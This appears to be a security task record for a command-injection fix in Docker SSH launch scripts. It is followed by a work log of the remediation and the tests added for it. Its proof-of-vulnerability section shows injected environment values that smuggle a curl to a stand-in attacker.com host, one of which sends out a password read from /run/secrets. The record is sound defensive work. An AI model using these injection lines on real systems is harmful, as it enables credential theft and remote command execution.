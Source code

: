 **Related files (context only, no changes needed):**
- `stable/scripts/common.sh:150-232` - SSH setup and launch functions
- `latest/scripts/common.sh:150-232` - SSH setup and launch functions
- `image-files/scripts/common.sh:150-232` - SSH setup and launch functions
- `stable/scripts/run.sh:107` - Calls setup_ssh()
- `latest/scripts/run.sh:107` - Calls setup_ssh()
- `image-files/scripts/run.sh:107` - Calls setup_ssh()

**Build context:**
- `stable/Dockerfile:61` - Copies ./scripts to image
- `latest/Dockerfile:61` - Copies ./scripts to image

#### Proof of Vulnerability

Injection through SSH_USER_TUNNEL:
```bash
# Malicious environment variable
SSH_USER_TUNNEL="legitimate@host; curl http://attacker.com/exfil?data=$(whoami); #"

# Current vulnerable expansion
bash -c "ssh <opts> -TNR <ports> legitimate@host; curl http://attacker.com/exfil?data=$(whoami); #"

# Bash executes THREE commands:
# 1. ssh <opts> -TNR <ports> legitimate@host
# 2. curl http://attacker.com/exfil?data=$(whoami)
# 3. # (comment, ignores rest)
```

Injection through SSH_OPTIONS:
```bash
# Malicious environment variable
SSH_OPTIONS="-o ProxyCommand='curl http://attacker.com/$(cat /run/secrets/tws_password)'"

# Current vulnerable expansion
bash -c "ssh -o ProxyCommand='curl http://attacker.com/$(cat /run/secrets/tws_password)' <rest>"

# Before SSH runs, the ProxyCommand executes and exfiltrates credentials
```

## Work Log
- [2025-10-14] Task created from code review findings
- [2025-10-14] Task startup: created branch fix/command-injection-ssh, ready to begin work
- [2025-10-14] Context manifest enhanced with industry-standard security documentation:
  - Added CWE-78, CVSS v3.1 (9.1 Critical), OWASP A03:2021 classification
  - Added defense-in-depth measures (input validation, regression prevention, least privilege)
  - Documented alternative mitigation approaches with security analysis
  - Added threat actor analysis (insider/supply chain/external attacker scenarios)
  - Created comprehensive verification test suite with 7 specific test cases
  - Added automated security testing script for CI/CD integration
- [2025-10-14] Security fix implementation completed:
  - Phase 1: Verified all 3 files are identical, confirmed vulnerability at line 13
  - Phase 1: Installed shellcheck 0.9.0, baseline check shows 0 errors/warnings
  - Phase 2: Removed `bash -c` wrapper from all 3 run_ssh.sh files (stable, latest, image-files)
  - Phase 2: Applied strategic quoting: _USER_TUNNEL quoted, port spec quoted, _OPTIONS/_SCREEN unquoted for word splitting
  - Phase 2: Added shellcheck directive documenting intentional word splitting
  - Phase 2: All 3 files pass shellcheck with 0 errors, 0 warnings
  - Phase 3: Created tests/security_test_ssh_injection.sh with 6 comprehensive security tests
  - Phase 3: Test suite validates injection prevention via SSH_USER_TUNNEL, SSH_OPTIONS, SSH_SCREEN
  - Phase 3: All security tests PASS on all 3 script versions (stable, latest, image-files)
  - Phase 3: Added inline security documentation to all 3 run_ssh.sh files explaining CWE-78 prevention
  - Phase 4: Created comprehensive commit (ce2847e) documenting vulnerability, fix, and validation
  - Commit includes: Attack vector examples, CVSS/CWE/OWASP classification, shellcheck results, test results